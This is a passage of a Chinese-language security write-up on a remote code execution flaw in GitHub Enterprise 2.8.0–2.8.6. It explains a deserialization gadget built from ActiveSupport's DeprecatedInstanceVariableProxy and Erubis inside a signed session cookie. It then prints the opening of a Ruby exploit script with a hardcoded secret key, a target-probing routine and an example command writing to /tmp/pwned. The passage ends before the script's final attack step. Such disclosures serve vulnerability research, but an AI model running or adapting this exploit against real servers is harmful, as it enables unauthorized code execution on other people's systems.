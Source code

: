 在ActiveSupport中，提供了一种便捷的方式来通知用户某些东西发生了变化。它被称为ActiveSupport :: Deprecation :: DeprecatedInstanceVariableProxy，我们可以通过它来废弃实例变量。如果在这个废弃的实例变量上运行方法话，它会为你调用new生成的方法并发出警告。这正是我们想要的，具体如下所示： 



```
proxy = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erubis, :result)
session = {"session_id" =&gt; "", "exploit" =&gt; proxy}
```

如果我现在访问session [“exploit”]，它会调用erubis.result，然后运行嵌入的shell命令id&gt; / tmp / pwned并返回1。

现在，我们只要把它封装成一个会话cookie，用密钥进行签名，就可以进行完成远程代码执行攻击了。

<br>

**漏洞利用**

下面是我提供给GitHub的完整漏洞利用代码，注意，它仅限于教育用途。



```
#!/usr/bin/ruby
require "openssl"
require "cgi"
require "net/http"
require "uri"
SECRET = "641dd6454584ddabfed6342cc66281fb"
puts '                     ___.   .__                 '
puts '  ____ ___  ________ _ |__ |  |  __ __   ____  '
puts '_/ __ \\  /  /__   | __ |  | |  |  _/ __  '
puts '  ___/ &gt;    &lt;  / __ | _   |_|  |  /  ___/ '
puts ' ___  &gt;__/_ (____  /___  /____/____/  ___  &gt;'
puts '     /      /     /    /                 / '
puts ''
puts "github Enterprise RCE exploit"
puts "Vulnerable: 2.8.0 - 2.8.6"
puts "(C) 2017 iblue &lt;iblue@exablue.de&gt;"
unless ARGV[0] &amp;&amp; ARGV[1]
  puts "Usage: ./exploit.rb &lt;hostname&gt; &lt;valid ruby code&gt;"
  puts ""
  puts "Example: ./exploit.rb ghe.example.org "%x(id &gt; /tmp/pwned)""
  exit 1
end
hostname = ARGV[0]
code = ARGV[1]
# First we get the cookie from the host to check if the instance is vulnerable.
puts "[+] Checking if #{hostname} is vulnerable..."
http = Net::HTTP.new(hostname, 8443)
http.use_ssl = true
http.verify_mode = OpenSSL::SSL::VERIFY_NONE # We may deal with self-signed certificates
rqst = Net::HTTP::Get.new("/")
while res = http.request(rqst)
  case res
  when Net::HTTPRedirection then
    puts "  =&gt; Following redirect to #{res["location"]}..."
    rqst = Net::HTTP::Get.new(res["location"])
  else
    break
  end
end
def not_vulnerable
  puts "  =&gt; Host is not vulnerable"
  exit 1
end
unless res['Set-Cookie'] =~ /A_gh_manage/
  not_vulnerable
end
```